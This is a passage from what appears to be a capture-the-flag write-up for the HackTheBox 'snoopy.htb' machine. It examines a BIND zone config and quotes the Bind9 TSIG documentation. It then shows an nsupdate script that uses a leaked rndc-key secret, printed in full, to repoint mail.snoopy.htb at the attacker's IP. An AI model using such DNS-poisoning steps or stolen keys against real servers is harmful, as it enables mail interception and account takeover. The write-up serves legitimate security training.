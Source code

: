             //listen-on-v6 { any; };
    };



`named.conf.local` has more config:



    //
    // Do any local configuration here
    //

    // Consider adding the 1918 zones here, if they are not used in your
    // organization
    //include "/etc/bind/zones.rfc1918";

    zone "snoopy.htb" IN {
        type master;
        file "/var/lib/bind/db.snoopy.htb";
        allow-update { key "rndc-key"; };
        allow-transfer { 10.0.0.0/8; };
    };



This also configures the `allow-transfer`. It also has an `allow-update`
value, which says that anyone with the `rndc-key` can update!

### Access to Mattermost

#### Update mail.snoopy.htb

The Bind9 docs have a [section on
TSIG](https://bind9.readthedocs.io/en/v9_16_22/advanced.md#tsig):

> TSIG (Transaction SIGnatures) is a mechanism for authenticating DNS
> messages, originally specified in [**RFC
> 2845**](https://datatracker.ietf.org/doc.md/rfc2845.md). It allows
> DNS messages to be cryptographically signed using a shared secret.
> TSIG can be used in any DNS transaction, as a way to restrict access
> to certain server functions (e.g., recursive queries) to authorized
> clients when IP-based access control is insufficient or needs to be
> overridden, or as a way to ensure message authenticity when it is
> critical to the integrity of the server, such as with dynamic UPDATE
> messages or zone transfers from a primary to a secondary server.

The docs calls out `nsupdate` as the tool to do dynamic DNS updates with
TSIG.

I'll create a file with the steps I want to do, and another with the
key:



    oxdf@hacky$ cat poison_dns.txt 
    server 10.10.11.212
    zone snoopy.htb
    update add mail.snoopy.htb 86400 IN A 10.10.14.6
    send
    oxdf@hacky$ cat rndc.key 
    key "rndc-key" {
        algorithm hmac-sha256;
        secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
    };
